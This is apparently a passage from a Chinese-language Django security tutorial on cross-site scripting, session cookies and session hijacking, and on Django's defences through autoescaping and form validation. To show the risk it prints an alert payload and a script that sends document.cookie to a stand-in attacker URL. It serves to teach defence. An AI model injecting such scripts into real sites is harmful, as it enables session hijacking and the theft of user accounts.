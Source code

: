 这是一个`View`类，当没有任何`GET`参数访问时，它会显示一个搜索表单。如果提交搜索表单，它会显示用户在表单中输入的搜索字符串。

现在在一个过时的浏览器（比如 IE 8）中打开这个视图，并在表单中输入以下搜索词并提交：

```py
<script>alert("pwned")</script>
```

毫不奇怪，浏览器将显示一个带有不祥消息的警报框。请注意，这种攻击在最新的 Webkit 浏览器（如 Chrome）中会失败，并在控制台中显示错误——**拒绝执行 JavaScript 脚本。在请求中找到脚本的源代码**。

如果你想知道一个简单的警报消息会造成什么伤害，记住任何 JavaScript 代码都可以以相同的方式执行。在最坏的情况下，用户的 Cookie 可以通过输入以下搜索词被发送到攻击者控制的站点：

```py
<script>var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);</script>
```

一旦您的 Cookie 被发送，攻击者可能会进行更严重的攻击。

## 为什么你的 Cookie 很有价值？

值得了解的是，为什么 Cookie 是几种攻击的目标。简而言之，访问 Cookie 允许攻击者冒充您，甚至控制您的网络帐户。

要详细了解这一点，您需要了解会话的概念。HTTP 是无状态的。无论是匿名用户还是经过身份验证的用户，Django 都会在一定时间内跟踪他们的活动，管理会话。

会话由客户端端（即浏览器）的“会话 ID”和服务器端存储的类似字典的对象组成。“会话 ID”是一个随机的 32 个字符的字符串，存储为浏览器中的 Cookie。每当用户向网站发出请求时，包括这个“会话 ID”在内的所有 Cookie 都会随请求一起发送。

在服务器端，Django 维护一个会话存储，将此`会话 ID`映射到会话数据。默认情况下，Django 将会话数据存储在`django_session`数据库表中。

用户成功登录后，会话将记录身份验证成功并跟踪用户。因此，cookie 成为后续交易的临时用户身份验证。任何获得此 cookie 的人都可以使用该 Web 应用程序作为该用户，这称为**会话劫持**。

### Django 如何帮助

您可能已经注意到，我的示例是 Django 中实现视图的一种非常不寻常的方式，原因有两个：它没有使用模板进行渲染，也没有使用表单类。它们都有防止 XSS 的措施。

默认情况下，Django 模板会自动转义 HTML 特殊字符。因此，如果您在模板中显示搜索字符串，所有标记都将被 HTML 编码。这使得无法注入脚本，除非您通过将内容标记为安全来明确关闭它们。

在 Django 中使用表单来验证和清理输入也是一种非常有效的对策。例如，如果您的应用程序需要数字员工 ID，则使用`IntegerField`类而不是更宽松的`CharField`类。

在我们的示例中，我们可以在搜索词字段中使用`RegexValidator`类，以限制用户只能使用您的搜索模块识别的字母数字字符和允许的标点符号。尽可能严格地限制用户输入的可接受范围。

### Django 可能无法帮助的地方

Django 可以通过模板中的自动转义来防止 80%的 XSS 攻击。对于剩下的情况，您必须注意：

+   引用所有 HTML 属性，例如，用`<a href="{{link}}">`替换`<a href={{link}}>`

+   使用自定义方法在 CSS 或 JavaScript 中转义动态数据

+   验证所有 URL，特别是针对不安全的协议，如`javascript:`

+   避免客户端 XSS（也称为基于 DOM 的 XSS）

作为对抗 XSS 的一般规则，我建议——输入时过滤，输出时转义。确保您验证和清理（过滤）任何输入的数据，并在发送给用户之前立即转换（转义）它。具体而言，如果您需要支持具有 HTML 格式的用户输入，例如评论，请考虑改用 Markdown。

### 提示

输入时过滤，输出时转义。
